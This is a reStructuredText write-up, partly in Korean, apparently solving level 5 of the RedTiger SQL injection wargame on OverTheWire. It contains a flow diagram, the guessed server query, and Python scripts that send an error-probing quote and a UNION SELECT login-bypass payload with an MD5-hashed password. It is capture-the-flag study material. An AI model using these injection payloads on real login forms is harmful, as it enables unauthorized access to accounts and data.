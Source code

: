 ================================================================================================================
[redtiger] level5
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="post_data: {username='&password='}",arrowhead="normal"];
        step3 -> step2[label="Error Page",arrowhead="normal"];
        step4 -> step5[label="post_data: {username=' union select 'joizel','0cc175b9c0f1b6a831c399e269772661&password=a&login=Login}",arrowhead="normal"];
        step7 -> step6[label="login success",arrowhead="normal"];
    }

|

server -> DB 예측
================================================================================================================

- Disabled: substring , substr, ( , ), mid
- POST 파라미터: username, password
- Hints: its not a blind, the password is md5-crypted, watch the login errors

.. code-block:: sql

    SELECT * FROM tb_name where 
    username='$_POST["username"]' AND 
    password='$_POST["password"]'    

|

quote
================================================================================================================

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level5.php"
    cookies = {
        "level5login":"bananas_are_not_yellow-sometimes"
    }

    params = {
        "username": "'",
        "password": "'"
    }
    
    r = requests.post(url, cookies=cookies, params=params, verify=False)
    print r.content

|

.. code-block:: html

    Warning: mysql_num_rows() expects parameter 1 to be resource, 
    boolean given in /var/www/hackit/level5.php on line 46
    User not found!

|

union select
================================================================================================================

- 데이터 추출

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level5.php"
    cookies = {
        "level5login":"bananas_are_not_yellow-sometimes"
    }

    params = {
        "mode": "login"
    }

    # a => 0cc175b9c0f1b6a831c399e269772661
    payloads = {
        "username": "' union select 'joizel', '0cc175b9c0f1b6a831c399e269772661",
        "password": "a",
        "login": "Login"
    }

    r = requests.post(url, cookies=cookies, params=params, data=payloads, verify=False)
    print r.content


|